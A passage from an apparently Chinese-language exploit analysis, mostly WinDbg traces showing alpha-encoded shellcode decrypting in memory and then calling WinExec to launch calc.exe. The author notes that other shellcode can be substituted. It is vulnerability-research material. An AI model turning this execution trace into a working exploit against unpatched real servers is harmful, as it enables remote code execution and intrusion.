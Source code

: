 rsaenh!g_pfnFree+0x29f:
6803155b 803941          cmp     byte ptr [ecx],41h         ds:0023:68031586=32
0:009> p
eax=05400374 ebx=7ffe0300 ecx=68031586 edx=68031569 esi=68031460 edi=680124e3
eip=6803155e esp=68031400 ebp=6e6f3176 iopl=0         nv up ei ng nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000283
rsaenh!g_pfnFree+0x2a2:
6803155e 75e2            jne     rsaenh!g_pfnFree+0x286 (68031542)       [br=1]


0:009> dd 68031580
68031580  00380059 00320059 004d0054 004a0054
68031590  00310054 0030004d 00370031 00360059
680315a0  00300051 00300031 00300031 004c0045
680315b0  004b0053 00300053 004c0045 00330053
</pre>
<p nodeIndex="120">可以看到，解密前，alpha shellcod部分，随后解密结束之后。</p>
<pre class="prettyprint" nodeIndex="121">
0:009> p
eax=04d0035d ebx=7ffe0300 ecx=68031592 edx=6803156c esi=68031460 edi=680124e3
eip=6803155e esp=68031400 ebp=6e6f3176 iopl=0         nv up ei ng nz na pe cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000287
rsaenh!g_pfnFree+0x2a2:
6803155e 75e2            jne     rsaenh!g_pfnFree+0x286 (68031542)       [br=1]
0:009> bp 68031560
0:009> g
Breakpoint 2 hit
eax=00000410 ebx=7ffe0300 ecx=680318da edx=6803163e esi=68031460 edi=680124e3
eip=68031560 esp=68031400 ebp=6e6f3176 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!g_pfnFree+0x2a4:
68031560 b8b726bfca      mov     eax,0CABF26B7h
0:009> dd 68031580
68031580  223cec9b 265a2caa 6a289c9c 9f7c5610
68031590  90a91aa3 9f8f9004 beec8995 6120d015
680315a0  60351b24 30b44661 a56b0c3a 4eb0584f
680315b0  b3b04c03 65916fd3 87313668 9f7842bd
680315c0  14326fa2 fcc51b10 c16ae469 05721746
680315d0  7f01c860 44127593 5f97a1ee 840f2148
680315e0  4fd6e669 089c4365 23715269 e474df95
</pre>
<p nodeIndex="122">shellcode已经被解密出来，随后会调用winexec，执行calc。</p>
<pre class="prettyprint" nodeIndex="123">
0:009> p
eax=77ea411e ebx=7ffe0300 ecx=68031614 edx=876f8b31 esi=68031460 edi=680124e3
eip=680315f9 esp=680313fc ebp=68031581 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
rsaenh!g_pfnFree+0x33d:
680315f9 51              push    ecx
0:009> p
eax=77ea411e ebx=7ffe0300 ecx=68031614 edx=876f8b31 esi=68031460 edi=680124e3
eip=680315fa esp=680313f8 ebp=68031581 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
rsaenh!g_pfnFree+0x33e:
680315fa ffe0            jmp     eax {kernel32!WinExec (77ea411e)}
0:009> dd esp
680313f8  68031614 68031633 00000001 00000000
0:009> dc 68031633 l2
68031633  636c6163 6578652e                    calc.exe
</pre>
<p nodeIndex="124">第二个参数是0x1，是SW_SHOWNORMAL，但由于服务无窗口，因此calc无法弹出。</p>
<div id="RIL_IMG_4" class="RIL_IMG"><img src="/media/posts_images/2017-06-14-1782738476/4"/></div>
<p nodeIndex="126">其实，这个过程可以替换成其他的shellcode，相关的shellcode替换链接可以看我的好基友LCatro的几篇文章，都非常不错。</p>
<p nodeIndex="127">https://ht-sec.org/cve-2017-7269-hui-xian-poc-jie-xi/</p>